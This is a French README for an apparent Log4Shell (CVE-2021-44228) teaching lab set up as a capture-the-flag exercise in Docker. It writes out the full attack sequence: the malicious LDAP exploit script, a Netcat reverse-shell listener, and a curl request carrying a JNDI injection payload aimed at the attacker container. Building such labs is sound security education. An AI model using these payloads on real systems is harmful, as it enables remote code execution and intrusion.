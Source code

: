 # Log4Shell-DIABLE 🐍

Ce projet est conçu pour démontrer et comprendre la vulnérabilité critique **Log4Shell** (CVE-2021-44228), qui affecte la bibliothèque **Apache Log4j 2**. Cette vulnérabilité permet à un attaquant d'exécuter du code arbitraire à distance en exploitant un mauvais traitement des messages de log.

## Présentation de l'application web

L'application web utilisée pour cette démonstration est un **portail étudiant** de l'**ISFA (Institut de Science Financière et d'Assurances)**. Ce portail permet aux étudiants de télécharger leurs documents scolaires et de consulter leurs notes. Dans cette démonstration, nous allons exploiter cette application pour démontrer la vulnérabilité Log4Shell.

## Prérequis

- **Docker** installé sur votre machine.

## Étapes d’installation et d’exploitation

### 1. Téléchargez les images Docker

Exécutez les commandes suivantes pour télécharger les images nécessaires depuis Docker Hub :

```
docker pull eddycaron/diable:log4shell_vuln_app
docker pull eddycaron/diable:log4shell_attacker
```

### 2. Créez un réseau Docker

Créez un réseau Docker pour que les conteneurs puissent communiquer entre eux :

```
docker network create --driver bridge --subnet 172.25.0.0/16 net1
```

### 3. Lancez l’application vulnérable

### Sur Linux :

```
docker run -d --name vuln_app --network net1 --ip 172.25.0.10 eddycaron/diable:log4shell_vuln_app
```

Accédez à l’application vulnérable via :

```
http://172.25.0.10:8080
```

### Sur Windows :

```
docker run -d --name vuln_app -p 8080:8080 --network net1 --ip 172.25.0.10 eddycaron/diable:log4shell_vuln_app
```

Accédez à l’application vulnérable via :

```
http://localhost:8080
```

### 4. Lancez l’attaquant

Exécutez le conteneur de l’attaquant :

```
docker run -d --name attacker --network net1 --ip 172.25.0.20 eddycaron/diable:log4shell_attacker
```

### 5. Exploitez la vulnérabilité

### Initialisez l’environnement de l’attaquant

Connectez-vous au conteneur de l’attaquant et lancez le script d’exploitation :

```
docker exec -it attacker bash
python3 exploit.py --userip 172.25.0.20 --webport 8000 --lport 9001
```

### Configurez un listener

Dans le conteneur de l’attaquant, lancez un listener avec Netcat :

```
docker exec -it attacker bash
nc -lvnp 9001
```

### Envoyez une requête malveillante

Envoyez une requête POST malveillante à l’application vulnérable :

```
docker exec -it attacker bash
curl -X POST -d "uname=\${jndi:ldap://172.25.0.20:1389/a}&password=wrongpassword" http://172.25.0.10:8080/login
```

### 6. Observez le résultat

Dans le listener Netcat, vous recevrez une connexion depuis le serveur cible. Voici quelques commandes pour interagir avec le système compromis :

- **Afficher l'utilisateur actuel** :
    
    ```bash
    whoami
    ```
    
- **Afficher le répertoire de travail actuel** :
    
    ```bash
    pwd
    ```
    
- **Trouver le flag caché** :
    
    Explorez les répertoires Linux pour trouver le flag caché.
    

### Indice :

Le flag est situé dans le répertoire contenant les utilisateurs de la machine. 😉

## Fonctionnement de `exploit.py`

Le fichier `exploit.py` agit comme un serveur LDAP malveillant. Voici ce qu'il fait :

1. Il écoute sur un port défini (par défaut, 8000) pour capturer les requêtes envoyées par l'application vulnérable.
2. Lorsque l’exploit est injectée dans l'application, elle déclenche une requête LDAP vers le serveur malveillant.
3. Le script envoie une réponse contenant un objet Java malveillant, ce qui exécute du code arbitraire sur le serveur ciblé.
4. Cette interaction permet d'établir une connexion avec le listener Netcat, établissant ainsi un accès non autorisé.

## Avertissement

**L'utilisation de ce projet pour exploiter des systèmes sans autorisation est strictement interdite.** Assurez-vous de toujours avoir les droits nécessaires avant d'utiliser des outils de sécurité offensive.

